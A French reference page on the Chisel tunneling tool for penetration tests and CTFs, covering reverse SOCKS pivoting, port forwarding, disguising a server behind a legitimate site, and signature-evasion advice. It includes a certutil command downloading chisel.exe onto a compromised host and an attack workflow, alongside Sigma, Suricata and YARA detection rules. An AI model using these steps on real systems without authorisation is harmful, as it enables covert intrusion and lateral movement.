

# 🕹️ Chisel — Tunneling TCP/UDP par WebSocket

> [!info] **En 1 phrase**
> Chisel est un tunnel TCP/UDP encapsulé dans une connexion HTTP via WebSocket : un client et un serveur Go créent un canal chiffré, très utilisé en CTF pour le port forwarding et le proxy SOCKS reverse.

---

## 🧾 Overview

| Champ | Valeur |
|---|---|
| Nom complet | Chisel (fast TCP/UDP tunnel over HTTP) |
| Description | Tunneling TCP/UDP encapsulé dans HTTP via WebSocket, sécurisé par SSH (clés ECDSA P256) ; binaire unique client + serveur |
| Catégorie / Sous-catégorie | 🕹️ C2 & Post-Exploitation / Tunneling & Pivoting |
| Fonction principale | Port forwarding et proxy SOCKS5 reverse pour franchir les firewalls et pivoter |
| Type d'outil | CLI (binaire unique Go : `chisel server` / `chisel client`) |
| Licence | MIT |
| Langage(s) de programmation | Go |
| Développeur / organisation | Jaime Pillora (jpillora) |
| Dépôt / Documentation | https://github.com/jpillora/chisel · https://github.com/jpillora/chisel#readme |
| Date de création | 25 février 2015 |
| État du projet | actif (v1.12 en cours de stabilisation) |
| Dernière version connue | v1.11.8 (stable) · v1.12.0-rc3 (pré-version, 2026) |
| Systèmes compatibles | Linux, Windows, macOS, BSD, ARM ; paquet Kali |

> [!note] Pour vérifier / compléter
> Chisel est massivement utilisé par des APT et ransomware (MuddyWater, groupes Chine-nexus type UAT-9686) : sa présence en réseau est un signal défensif fort (MITRE T1572 / T1090).

---

## 🎯 Concept

Chisel fonctionne en deux modes du même binaire : un **serveur** (côté attaquant ou pivot) et un **client** (côté cible). Il tunnelise du trafic TCP (et UDP) dans une session HTTP/WebSocket chiffrée, ce qui lui permet de traverser les firewalls qui n'autorisent que HTTP(S). Le mode `reverse` (`R:`) est le plus utile en offensive : le client (sur la cible) initie la connexion sortante et demande au serveur d'ouvrir des ports ou un proxy SOCKS, sans qu'aucune entrée ne soit nécessaire sur la cible.

Les tunnels se déclarent par une syntaxe de type SSH : `R:<port>:<hôte>:<port>` pour exposer un service de la cible vers l'attaquant, `L:` pour l'inverse, `R:socks` pour un proxy SOCKS5 côté serveur. Léger (binaire statique unique, ~4-8 Mo), cross-platform, c'est le réflexe des CTF et engagements pour le port forwarding simple comme pour le pivoting complet via proxychains. Il intègre l'authentification (`--auth`, `--authfile`), l'anti-MITM (`--fingerprint`), le TLS/LetsEncrypt (`--tls-domain`) et la dissimulation derrière un vrai site (`--backend`).



---

## 🧠 Concepts fondamentaux

| Concept | Explication |
|---|---|---|
| WebSocket | Canal bidirectionnel persistant (`Upgrade: websocket`) : une seule connexion TCP multiplexe tous les tunnels |
| Tunnel reverse (`R:`) | Le client (sortant) demande des écoutes sur le serveur, qui relaie vers la cible : parfait quand les entrées sont filtrées |
| Tunnel local (`L:`) | Le client ouvre un port d'écoute sur la cible et relaie vers un hôte/port distant |
| Proxy SOCKS5 (`R:socks`) | Le serveur expose un SOCKS5 sur `127.0.0.1:1080` : tout le réseau joignable depuis la cible devient utilisable via proxychains |
| Sécurisation SSH | Chiffrement ECDSA P256, protocole type SSH (chisel-v3) ; l'empreinte SHA256 base64 sert au `--fingerprint` |
| Authentification / `--backend` | `--auth user:pass` ou `--authfile users.json` (multi-utilisateurs + ACL regex, rechargé à chaud) ; `--backend` relaie les requêtes « normales » vers un vrai serveur pour maquiller l'infra |
| Keepalive & retries | `--keepalive` (défaut 25 s) évite la fermeture des connexions inactives ; retries client en backoff (5 min max) |

---

## 🛠️ Installation

### Debian / Ubuntu / Kali Linux

```bash
# Kali : paquet officiel (v1.11.6-0kali1 dans kali-rolling) + binaires précompilés
sudo apt update && sudo apt install -y chisel chisel-common-binaries
ls /usr/share/chisel-common-binaries/
```

### Arch Linux / Fedora / RHEL / macOS

```bash
# Arch : aucun paquet officiel — build via Go
go install github.com/jpillora/chisel@latest
# Fedora / RHEL : les releases fournissent un .rpm depuis v1.10
sudo dnf install ./chisel_1.11.8_linux_amd64.rpm
# macOS
brew install chisel
```

### Windows

```powershell
# Release chisel_windows_amd64.gz, décompressée et renommée chisel.exe
# Déploiement via une session C2 compromise :
certutil -urlcache -split -f http://10.10.14.5/chisel.exe C:\Windows\Temp\chisel.exe
```

### Docker / Compilation

```bash
docker pull jpillora/chisel:latest
docker run --rm -p 8080:8080 jpillora/chisel server --reverse --socks5 --port 8080
# Compilation : git clone https://github.com/jpillora/chisel.git && cd chisel
# go build -o chisel ./cmd/chisel  (ou go install github.com/jpillora/chisel@latest)
```

> [!warning] ⚠️ Prérequis & problèmes potentiels
> Binaire **statique** : aucune dépendance runtime (wget/curl/certutil suffisent). Garder des versions serveur/client proches (v1.11.x ↔ v1.12 compatibles mais comportement dégradé dans certains cas).

---

## ⚙️ Configuration

Chisel n'a **pas** de fichier de configuration global : tout passe par des **flags** et des **variables d'environnement** (préfixe `CHISEL_`, plus `HOST`/`PORT`/`AUTH`).

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `--port` / `-p` | Port d'écoute du serveur | port (défaut `8080`) | Point de rendez-vous | `chisel server --port 8000` |
| `--reverse` | Autorise les tunnels reverse | booléen | Indispensable pour `R:` | `chisel server --reverse` |
| `--socks5` | Active le proxy SOCKS5 serveur | booléen | SOCKS5 côté serveur | `chisel server --socks5` |
| `--auth user:pass` | Authentification simple | chaîne | Bloque les connexions non authentifiées | `chisel server --auth "admin:S3cr3t!"` |
| `--authfile users.json` | Auth multi-utilisateurs + ACL | JSON `{"user:pass": ["regex"]}` | Contrôle fin des remotes (rechargé à chaud) | `chisel server --authfile users.json` |
| `--keygen`/`--keyfile` | Clé ECDSA persistante | chemin PEM | Empreinte stable (remplace `--key` déprécié) | `chisel server --keyfile key.pem` |
| `--keepalive <durée>` | Intervalle de keepalive | `25s`, `2m`, `0s` | Évite les coupures des proxies | `chisel server --keepalive 5m` |
| `--backend <url>` | Relais HTTP (dissimulation) | URL | Maquille les requêtes reçues | `chisel server --backend http://example.com` |
| `--fingerprint <hash>` | Empreinte attendue (client) | 44 chars base64 | Bloque le MITM | `chisel client --fingerprint "9hd1/..." ...` |
| `CHISEL_UDP_MAX_SIZE` | Taille max paquets UDP | `9012` défaut | Tuning DNS/VoIP | `CHISEL_UDP_MAX_SIZE=1500` |

> [!note] À vérifier
> Advisory GHSA-38jh-8h67-m7mj : le serveur **ignore** la variable d'environnement `AUTH` documentée (lue seulement par le client). Toujours passer `--auth` en flag côté serveur.

---

## 🏗️ Architecture interne

- **Deux modes dans un binaire Go unique** : `chisel server` (écoute HTTP/WS) et `chisel client` (initie la connexion et demande des remotes).
- **Transport** : HTTP → upgrade **WebSocket** ; handshake et chiffrement de type **SSH** avec clés **ECDSA P256** (protocole « wire » versionné chisel-v3).
- **Multiplexage** : toutes les connexions passent par une unique session WebSocket → un client = une connexion TCP sortante, N tunnels simultanés.
- **Flux reverse** : le client envoie sa config de remotes (`R:...`) ; le serveur ouvre les sockets d'écoute et relaie chaque nouvelle connexion via le canal SSH, pendant que le client dial la destination.
- **Auth & ACL** : crédentials négociés dans le handshake ; `--authfile` filtre les remotes par regex (`<host>:<port>`, `R:<interface>:<port>`, `socks`) ; signaux `SIGINT`/`SIGTERM` = arrêt gracieux, `SIGUSR2` = stats, `SIGHUP` = relance du timer de reconnexion client.

---

## ⌨️ Commandes

### Commandes principales

```bash
chisel server [options]
chisel client [options] <serveur> <remote>...
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `chisel server --reverse` | Serveur autorisant les tunnels reverse | Affiche le `Fingerprint` SSH, écoute sur 8080 |
| `chisel server --reverse --socks5 --port 8000` | Serveur + proxy SOCKS5 | SOCKS5 disponible côté serveur |
| `chisel client <ip:port> R:socks` | Client reverse + SOCKS5 | SOCKS5 sur le serveur (`127.0.0.1:1080`) |
| `chisel client <ip:port> R:8080:127.0.0.1:80` | Exposer le port 80 de la cible | `curl http://127.0.0.1:8080` atteint le service interne |
| `chisel client <ip:port> L:9000:10.10.14.5:80` | Tunnel local sur la cible | La cible joint le service de l'attaquant via `127.0.0.1:9000` |
| `chisel client --fingerprint <hash> <ip:port> R:socks` | Client avec vérification d'empreinte | Refuse la connexion si l'empreinte ne correspond pas |
| `chisel server --keygen key.pem` | Générer une clé ECDSA persistante | Fichier `key.pem` + empreinte stable |
| `chisel client <ip:port> R:udp:53:127.0.0.1:53` | Tunnel UDP reverse (ex. DNS interne) | UDP relayé via WebSocket |
| `chisel client <ip:port> R:8080:127.0.0.1:80 R:13389:172.16.5.10:3389` | Plusieurs remotes sur un seul client | Tunnels simultanés |

> Le détail de tous les flags se trouve dans **🎚️ Options et flags** ; les combinaisons type proxy/backend/sni sont illustrées dans **🧪 Exemples pratiques** et **🎬 Scénarios avancés**.

---

## 🎚️ Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `server --port <p>` | Port d'écoute du serveur | `chisel server --port 8000` | Basic |
| `server --reverse` | Autorise les tunnels reverse | `chisel server --reverse` | Basic |
| `server --socks5` | Active le proxy SOCKS5 serveur | `chisel server --socks5` | Basic |
| `client R:p:h:p` | Forward reverse d'un port | `chisel client ... R:8080:127.0.0.1:80` | Basic |
| `client R:socks` | Proxy SOCKS5 reverse | `chisel client ... R:socks` | Basic |
| `client L:p:h:p` | Tunnel local | `chisel client ... L:9000:10.10.14.5:80` | Basic |
| `server --auth user:pass` | Authentification simple | `chisel server --auth "admin:P@ss"` | Intermediate |
| `client --fingerprint <h>` | Anti-MITM (empreinte SSH) | `chisel client --fingerprint "9hd1/..." ...` | Intermediate |
| `server --keepalive <t>` | Intervalle de keepalive | `chisel server --keepalive 5m` | Intermediate |
| `client --proxy <url>` | HTTP CONNECT / SOCKS5 pour joindre le serveur | `chisel client --proxy socks://p:1080 ...` | Intermediate |
| `client --header "K: V"` | En-tête HTTP personnalisé | `chisel client --header "User-Agent: Chrome" ...` | Intermediate |
| `server --authfile <f>` | Auth multi-utilisateurs + ACL regex | `chisel server --authfile users.json` | Advanced |
| `server --keygen`/`--keyfile` | Clé ECDSA persistante | `chisel server --keyfile key.pem` | Advanced |
| `server --backend <url>` | Dissimulation derrière un vrai site | `chisel server --backend http://example.com` | Advanced |
| `server --tls-domain <d>` | Certificat TLS LetsEncrypt auto (port 443) | `chisel server --tls-domain c2.example.com` | Advanced |
| `server --tls-ca <bundle>` | mTLS : valide les certificats clients | `chisel server --tls-ca clients-ca.pem` | Expert |
| `client --sni <name>` / `--max-retry-count N` | SNI TLS / max de tentatives | `chisel client --sni cloudfront.net --max-retry-count 10` | Expert |
| `R:udp:p:h:p` | Tunnel UDP reverse | `chisel client ... R:udp:53:127.0.0.1:53` | Expert |

> [!tip] Options les plus utiles au quotidien
> `server --reverse` (indispensable), `R:socks` (pivot complet), `--fingerprint` (anti-MITM), `--auth` (crédentials), `--port 443` pour sortir sur un port autorisé.

---

## 🧪 Exemples pratiques

### Beginner

```bash
# Objectif : exposer un service web interne sur la machine de l'attaquant
./chisel server --reverse --port 8000            # attaquant
./chisel client 10.10.14.5:8000 R:8080:127.0.0.1:80   # cible
curl -s http://127.0.0.1:8080                    # attaquant
```

### Intermediate

```bash
# Objectif : pivoter via SOCKS5 reverse et scanner le réseau interne
./chisel server --reverse --socks5 --port 8000
./chisel client 10.10.14.5:8000 R:socks
# proxychains.conf : "socks5 127.0.0.1 1080"
proxychains4 -q nmap -sT -Pn -p 445,3389,5985 172.16.5.0/24
```

### Expert

```bash
# Objectif : tunnel chiffré + authentifié, puis sortie d'un réseau HTTP(S) strict
chisel server --reverse --keygen key.pem
chisel server --reverse --keyfile key.pem --auth "ops:T0k3n!" --port 443
chisel client --fingerprint "9hd1/z4WHGEkF469ifkz1xmvjOZsX1/xpl8i+FlXNoo=" --auth "ops:T0k3n!" \
  --proxy http://proxy.corp.local:3128 --header "User-Agent: Mozilla/5.0" \
  --sni static.example-cdn.com https://c2.example.com R:socks
proxychains4 -q curl -s http://172.16.5.10/admin
```

---

## 🧪 Workflow complet (scénario pas à pas)

1. **Côté attaquant — démarrer le serveur** en mode reverse + SOCKS : `./chisel server --reverse --socks5 --port 8000` — noter le « Fingerprint » affiché (il servira au `--fingerprint` côté client).
2. **Déposer le binaire chisel** sur la machine compromise (session C2 : `upload`, `wget`, `curl`, `certutil -urlcache`).
3. **Côté cible — lancer le client** :
   ```bash
   ./chisel client --fingerprint <hash> --auth ops:T0k3n! 10.10.14.5:8000 R:socks
   ```
4. **Côté attaquant — vérifier le proxy** : SOCKS5 sur `127.0.0.1:1080` (`ss -ltnp | grep 1080`), configurer `proxychains4` :
   ```text
   socks5 127.0.0.1 1080
   ```
5. **Scanner le réseau interne** :
   ```bash
   proxychains4 -q nmap -sT -Pn -p 445,3389,5985 172.16.5.0/24
   ```
6. **Se connecter à un service interne** — forward dédié puis client RDP :
   ```bash
   ./chisel client 10.10.14.5:8000 R:13389:172.16.5.10:3389
   xfreerdp /v:127.0.0.1:13389 /u:admin /p:Password123
   ```
7. **Nettoyer** : `SIGINT`/`SIGTERM` sur les deux process, supprimer le binaire de la cible.

---

## 🎬 Scénarios avancés

### Scénario 1 : pivoting en cascade (multi-hop) et exfiltration de services internes

Le serveur du premier tunnel sert de point d'entrée pour un second tunnel vers un réseau plus profond :

```bash
./chisel server --reverse --socks5 --port 8000          # attaquant
./chisel client 10.10.14.5:8000 R:socks                  # machine compromise A
./chisel client 172.16.5.5:8001 R:8080:10.0.0.2:80       # machine B du réseau interne
./chisel client 10.10.14.5:8000 R:13389:172.16.5.10:3389 # forward RDP dédié
xfreerdp /v:127.0.0.1:13389 /u:admin
```

### Scénario 2 : serveur maquillé derrière un site légitime

```bash
# Port 443 avec LetsEncrypt : les requêtes "normales" partent vers un vrai site,
# seuls les upgrades WebSocket du bon UA deviennent des tunnels
chisel server --reverse --socks5 --port 443 --tls-domain c2.example.com \
  --backend https://www.example.com --auth "ops:T0k3n!"
```

---

## 🛡️ Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Post-exploitation | Port forwarding d'un service interne vers l'attaquant |
| Pivoting | Proxy SOCKS5 reverse pour scanner/exploiter un réseau interne |
| Mouvement latéral | Tunnel entre machines compromises (cascade) |
| Exfiltration | Exfiltration de données/fichiers via le canal tunnelisé |
| Relais C2 | Faire transiter le trafic d'un framework C2 dans un canal HTTP(S) chiffré |
| Infra red team | Serveur maquillé (`--backend`) sur une infrastructure dédiée |

---

## 🎯 MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Command and Control | Protocol Tunneling | T1572 | Encapsule TCP/UDP dans HTTP/WebSocket | Bannière `SSH-chisel`, flux WebSocket persistants | Filtrage egress, inspection TLS |
| Command and Control | Proxy : Internal Proxy | T1090.001 | Reverse tunnels de pivoting interne | Écoutes/ports inhabituels entre zones | Segmentation réseau |
| Command and Control | Proxy : External Proxy | T1090.002 | Proxy SOCKS5 (`R:socks`) vers l'attaquant | Connexions sortantes longues, SOCKS non prévu | Egress filtering, proxy authentifié |
| Command and Control | Application Layer Protocol : Web Protocols | T1071.001 | Transport HTTP/WebSocket | User-Agents anormaux, upgrades sortants | Proxy HTTP forcé |
| Command and Control | Non-Standard Port | T1571 | Ports customs (8000, 4444…) | Connexions vers ports non standard | Restriction des ports sortants |
| Exfiltration | Exfiltration Over C2 Channel | T1041 | Données exfiltrées dans le tunnel | Volume/patterns de trafic anormaux | DLP, détection de flux sortants |

> [!note] Chisel est systématiquement rattaché à T1572 et T1090 par les équipes défensives ; la règle Sigma `proc_creation_win_pua_chisel.yml` couvre l'exécution de l'outil.

---

## 🛡️ Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Trafic HTTP/WebSocket | Chisel encapsule tout dans HTTP/WebSocket : surveiller les connexions WebSocket sortantes et le volume de données atypique |
| Bannière de handshake | Protocole de type SSH laissant une bannière `SSH-chisel` exploitable par des règles Suricata (ET/Proofpoint) |
| Binaire unique | Binaire Go statique non signé : signature YARA, contrôle Authenticode/AppLocker, hachage |
| Arguments CLI | `chisel.exe client`, `-reverse`, `-socks5`, `R:`, `:127.0.0.1:`, `-tls-skip-verify` (règle Sigma) |
| Proxychains | Les outils via proxychains laissent des traces de connexion source `127.0.0.1` |
| Sysmon/EDR | Processus inconnus en écoute (`chisel`) et sockets WebSocket persistants |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Sigma — Windows : exécution de l'outil Chisel
# Source : SigmaHQ — rules/windows/process_creation/proc_creation_win_pua_chisel.yml
title: PUA - Chisel Tunneling Tool Execution
id: 310c92db-3e41-44b6-a8b7-1f9b9ab4d6b5
status: test
logsource:
    category: process_creation
    product: windows
detection:
    selection_img:
        Image|endswith: '\chisel.exe'
    selection_param1:
        CommandLine|contains:
            - 'exe client '
            - 'exe server '
    selection_param2:
        CommandLine|contains:
            - '-socks5'
            - '-reverse'
            - ' r:'
            - ':127.0.0.1:'
            - '-tls-skip-verify '
            - ':socks'
    condition: selection_img or all of selection_param*
falsepositives:
    - Legitimate administrative usage
level: high
```

```bash
# Suricata — détection du handshake chisel (bannière SSH-chisel)
# Adapté des règles Emerging Threats / Proofpoint (Corelight)
alert tcp any any -> any any (msg:"ET POLICY Chisel SSH tunnel banner"; \
  flow:established,to_server; \
  content:"ssh-chisel"; nocase; \
  reference:url,github.com/jpillora/chisel; \
  sid:20260001; rev:1;)
```

```yaml
# YARA — empreinte du binaire Go chisel (version non personnalisée)
rule chisel_go_binary {
    meta:
        description = "Chaînes caractéristiques du binaire chisel"
        reference = "https://github.com/jpillora/chisel"
    strings:
        $s1 = "Chisel v" ascii wide
        $s2 = "ssh-chisel" ascii wide
        $g1 = ".gopclntab" ascii
    condition:
        uint16(0) == 0x5A4D and 1 of ($s*) and $g1
}
```

> [!note] À vérifier
> Exemples pédagogiques : adapter les chaînes aux versions (le binaire est trivialement recompilable). Elastic fournit aussi la règle pré-build « Potential Protocol Tunneling via Chisel Client » (EQL).

---

## 🤖 Automatisation

```bash
# Bash — serveur chisel en fond avec journalisation, puis parsing des connexions
chisel server --reverse --socks5 --port 8000 \
  --authfile /opt/chisel/users.json --keyfile /opt/chisel/key.pem \
  > /var/log/chisel.log 2>&1 &
grep -iE "session|client|denied" /var/log/chisel.log | tail -20
```

```python
# Python — supervision : vérifier que le SOCKS5 répond
import socket
s = socket.create_connection(("127.0.0.1", 1080), timeout=2)
s.sendall(b"\x05\x01\x00")          # version 5, 1 méthode, no-auth
print("SOCKS5 OK:", s.recv(2).hex())
s.close()
```

> [!note] users.json — ACL par utilisateur sur les remotes autorisés
> ```json
> { "ops1:Secret123": ["^10\\.10\\.14\\.5:443$"], "socks-user:ProxyPass": ["socks"] }
> ```

---

## 📤 Output et parsing

Chisel n'a **pas** de sortie structurée : tout passe par les logs texte (`-v` pour le détail côté serveur).

```bash
# Serveur en logs verbeux + grep des événements d'audit
chisel server --reverse -v 2>&1 | tee chisel.log
grep -iE "fingerprint|auth|denied|session" chisel.log
```

```python
# Python — analyser les logs d'audit du serveur
import re
for line in open("chisel.log", errors="ignore"):
    m = re.search(r"client/\d+.*?(Connected|Disconnected|Denied)", line)
    if m:
        print(m.group(0))
```

---

## 🔗 Intégrations

```text
Machine compromise → chisel client → chisel server → SOCKS5 → proxychains4 → nmap / curl / xfreerdp
```

- [[Tools|🧰 Outils]] · [[Techniques/Pivoting et Tunneling|🌉 Pivoting et Tunneling]] — contexte du pivoting
- [[Outil - Ligolo-ng|🪢 Ligolo-ng]] — alternative interface TUN
- [[Outil - Ncat|🔌 Ncat]] / [[Outil - socat|🪢 socat]] — tunnels simples
- [[Outil - Nmap|🕵️ Nmap]] — scan du réseau interne via proxychains
- [[Outil - Metasploit|📦 Metasploit]] — routes/relais complémentaires
- [[Techniques/Reverse Shells|🐚 Reverse Shells]] — livraison initiale du binaire

---

## 🔄 Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| Ligolo-ng | Interface TUN, accès réseau transparent, Web UI (v0.8) | Root + droits TUN requis | Pivoting « réseau entier » |
| SSH reverse (`-R`) | Natif sur Unix, pas d'artefact | Souvent filtré, config lourde | Tunnel ponctuel Linux→Linux |
| socat / Ncat | Léger, très flexible / inclus avec Nmap | Pas de multiplexage ni de SOCKS5 reverse natif | Forward simple / transferts |
| Stowaway / neo-reGeorg | Pivoting avancé / webshell HTTP | Communauté réduite, moins documentés | Cas particuliers |

> **Quand utiliser Ligolo-ng plutôt que Chisel ?** Pour un accès réseau transparent (routes `ip route add ... dev ligolo`) quand la cible laisse passer le port de l'agent. Chisel reste imbattable pour un forward ponctuel (`R:8080:127.0.0.1:80`) ou pour sortir via un proxy HTTP CONNECT.

---

## ⚡ Performance

- **Binaire statique unique** : ~4–8 Mo selon plateforme ; image Docker `jpillora/chisel` ~8 Mo compressée (amd64).
- **Multiplexage** : N tunnels dans une unique connexion WebSocket → une seule connexion TCP sortante par client.
- **Keepalive** par défaut `25s`, retries client en backoff jusqu'à `--max-retry-interval` (5 min) ; latence faible (une saute de relais), additive en cascade.
- Réglages réseau : `CHISEL_WS_TIMEOUT` (45 s), `CHISEL_DIAL_TIMEOUT` (30 s), `CHISEL_UDP_MAX_SIZE` (9012 octets), `CHISEL_UDP_MAX_CONNS` (100 flux UDP/tunnel).

> [!note] À vérifier
> Chiffres issus du README officiel (défauts des variables) et de Docker Hub (taille). Aucun benchmark de débit officiel publié.

---

## 🛠️ Troubleshooting

### Common problems

| Problème | Cause | Solution / Vérification |
|---|---|---|
| Les remotes `R:` ne s'ouvrent pas | Serveur lancé sans `--reverse` | `chisel server --reverse` · vérifier `ss -ltnp | grep <port>` |
| proxychains échoue alors que le client est connecté | SOCKS5 sur le **serveur**, pas la cible (`R:socks`) | Vérifier `ss -ltnp | grep 1080` côté serveur · proxychains vers `127.0.0.1:1080` |
| « fingerprint mismatch » | Clé SSH changée (régénérée à chaque run sans `--keyfile`) | Clé persistante `--keyfile` + bon `--fingerprint` · comparer les empreintes |
| Le client ne joint pas le serveur (timeout) | Egress filtré vers le port choisi | Port autorisé (443), `--proxy` HTTP CONNECT · `nc -vz` depuis la cible, logs `-v` |
| Connexion acceptée sans auth malgré `AUTH` | Advisory GHSA-38jh-8h67-m7mj : le serveur ignore `AUTH` | Utiliser `--auth`/`--authfile` · se connecter sans creds doit échouer |

---

## 🔐 Sécurité de l'outil

- **Usage légitime** : uniquement dans le cadre autorisé d'un test d'intrusion (dual-use tool utilisé par des APT et ransomware).
- **Chiffrement** : le transport est chiffré (SSH/ECDSA P256) même sans TLS : ne pas compter sur une inspection du texte clair pour le bloquer.
- **Anti-MITM** : vérifier `--fingerprint` côté client ; utiliser `--keyfile` pour une empreinte stable.
- **Authentification** : exiger `--auth`/`--authfile` ; ne jamais dépendre de `AUTH` (advisory GHSA-38jh-8h67-m7mj).
- **Exposition** : ne jamais exposer un serveur chisel sans auth sur Internet — n'importe qui pourrait demander des remotes et pivoter.
- **Opsec** : recompiler/personnaliser le binaire (strings, icône) pour échapper aux signatures YARA ; varier ports et User-Agents.

---

## ⚠️ Limitations

- Le SOCKS5 intégré est **TCP uniquement** ; pour l'UDP, utiliser des remotes `R:udp:` dédiées. Un egress HTTP strict avec inspection de contenu peut bloquer le handshake.
- Binaire non signé : AppLocker/WDAC/EDR le bloquent s'ils exigent une signature. Pas de sortie structurée (JSON) : monitoring par parsing de logs.
- Point de défaillance unique : si le serveur tombe, tous les tunnels clients tombent (retries auto côté client). Depuis v1.12, les empreintes MD5 legacy ne sont acceptées qu'en forme complète (préfixes tronqués rejetés).

---

## 📋 Cheatsheet

```bash
# Serveur reverse + SOCKS5 (attaquant)
chisel server --reverse --socks5 --port 8000
# Client reverse SOCKS5 (cible)
chisel client 10.10.14.5:8000 R:socks
# Forward reverse d'un service web interne / tunnel local
chisel client 10.10.14.5:8000 R:8080:127.0.0.1:80
chisel client 10.10.14.5:8000 L:9000:10.10.14.5:80
# Client avec vérification d'empreinte et auth
chisel client --fingerprint "9hd1/..." --auth "ops:T0k3n!" 10.10.14.5:8000 R:socks
# Clé persistante + serveur maquillé
chisel server --keygen key.pem
chisel server --keyfile key.pem --backend http://example.com --reverse
# Tunnel UDP reverse
chisel client 10.10.14.5:8000 R:udp:53:127.0.0.1:53
# proxychains4 vers le SOCKS5 du serveur
proxychains4 -q nmap -sT -Pn -p 445,3389 172.16.5.0/24
```

---

## ⚡ Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Tunnel TCP/UDP via HTTP/WebSocket pour franchir les firewalls et pivoter |
| **Quand l'utiliser ?** | Dès qu'on a une exécution sur une cible et besoin d'accéder à un réseau interne |
| **Commande principale** | `chisel server --reverse --socks5 --port 8000` puis `chisel client <ip>:8000 R:socks` |
| **Alternative principale** | Ligolo-ng (TUN), SSH reverse, socat |
| **Concepts importants** | WebSocket, reverse `R:`, `R:socks`, fingerprint, `--auth`/`--authfile` |
| **Liens associés** | [[Techniques/Pivoting et Tunneling\|🌉 Pivoting et Tunneling]] · [[Outil - Ligolo-ng\|🪢 Ligolo-ng]] · [[Techniques/Reverse Shells\|🐚 Reverse Shells]] |

---

## 🔍 Détection & Défense

> Les signes observables, règles Sigma/Suricata/YARA et défenses détaillées figurent dans la section **🛡️ Defensive Security** ci-dessus. Réflexes : surveiller les flux WebSocket sortants, la bannière `SSH-chisel`, les binaires non signés `chisel*` et les écoutes inhabituelles (Sysmon EID 1/3/12).

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Tips**
> - Utilisez `--fingerprint` pour vérifier l'empreinte du serveur : cela évite qu'un tiers ne capture vos tunnels.
> - Préférez `R:socks` à une pile de forwards pour pivoter confortablement (un seul canal, tout passe par proxychains).
> - Générez une clé persistante (`--keygen`/`--keyfile`) : empreinte stable et reconnexion sans surprise.
> - Sur un egress contraint, écoutez sur 443 (`--tls-domain`) ou utilisez `--proxy` HTTP CONNECT ; vérifiez le SOCKS avec `ss -ltnp | grep 1080` avant proxychains.

> [!warning] ⚠️ **Pièges**
> - Sans `--reverse` sur le serveur, les tunnels `R:` échouent silencieusement ; `R:socks` place le SOCKS sur le **serveur** (attaquant), pas sur la cible.
> - Ne comptez pas sur la variable d'env `AUTH` côté serveur (bug GHSA-38jh-8h67-m7mj) : passez `--auth` en flag.
> - Un serveur chisel sans auth exposé sur Internet est une porte ouverte : toujours authentifier.
> - Logs de connexion (source `127.0.0.1`) et binaire non signé sont des traces sur la cible : nettoyer après usage.

---

## 📚 References

### Official

- Dépôt GitHub officiel : https://github.com/jpillora/chisel
- README / documentation : https://github.com/jpillora/chisel#readme
- Releases (binaires, .deb/.rpm/.apk) : https://github.com/jpillora/chisel/releases
- Image Docker : https://hub.docker.com/r/jpillora/chisel
- Paquet Kali : https://www.kali.org/tools/chisel/

### Security references

- MITRE ATT&CK — T1572 Protocol Tunneling : https://attack.mitre.org/techniques/T1572/
- MITRE ATT&CK — T1090 Proxy : https://attack.mitre.org/techniques/T1090/
- SigmaHQ — proc_creation_win_pua_chisel : https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_pua_chisel.yml
- Elastic — Potential Protocol Tunneling via Chisel Client : https://www.elastic.co/guide/en/security/current/prebuilt-rule-8-19-13-potential-protocol-tunneling-via-chisel-client.html
- Advisory GHSA-38jh-8h67-m7mj (AUTH ignoré) : https://github.com/jpillora/chisel/security/advisories/GHSA-38jh-8h67-m7mj

### Community

- HackTricks — Chisel + proxychains : https://book.hacktricks.xyz/network-services-pentesting/pivoting-tunneling-and-port-forwarding#chisel
- Corelight — détection du handshake Chisel : https://corelight.com/blog/detecting-cve-2025-20393
- Top-100 Kali Tools (page chisel) : https://www.kali.org/tools/chisel/

---

➡️ **Liens :** [[Tools|🧰 Outils]] · [[Techniques/Pivoting et Tunneling|🌉 Pivoting et Tunneling]] · [[Outils/Outil - Ligolo-ng|🪢 Ligolo-ng]] · [[Techniques/Reverse Shells|🐚 Reverse Shells]]
